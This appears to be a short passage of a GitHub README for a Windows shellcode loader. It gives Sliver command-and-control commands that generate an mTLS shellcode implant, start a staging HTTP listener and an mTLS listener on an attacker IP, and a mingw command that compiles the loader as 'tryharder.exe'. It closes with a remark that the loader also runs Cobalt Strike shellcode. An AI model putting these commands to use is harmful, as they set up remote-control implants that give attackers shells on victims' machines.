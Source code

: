 ```bash
sliver > profiles new --mtls 192.168.45.156:443 -G --format shellcode sliver

sliver > stage-listener --url http://192.168.45.156:80 --profile sliver

sliver > mtls -L 192.168.45.156 -l 443

sliver > jobs

 ID   Name   Protocol   Port   Stage Profile                          
==== ====== ========== ====== ========================================
 4    mtls   tcp        443                                           
 5    http   tcp        80     sliver (Sliver name: DEVELOPED_BULLET) 
```

Linux compile command:
```bash
x86_64-w64-mingw32-g++ main.cpp -o tryharder.exe -lwininet -static-libgcc -static-libstdc++
```

# Note:
This was intended to be used with sliver, but you can set your infra up to feed whatever shellcode into it and it should* work.

Was able to have the loader ingest Cobalt shellcode just fine. 
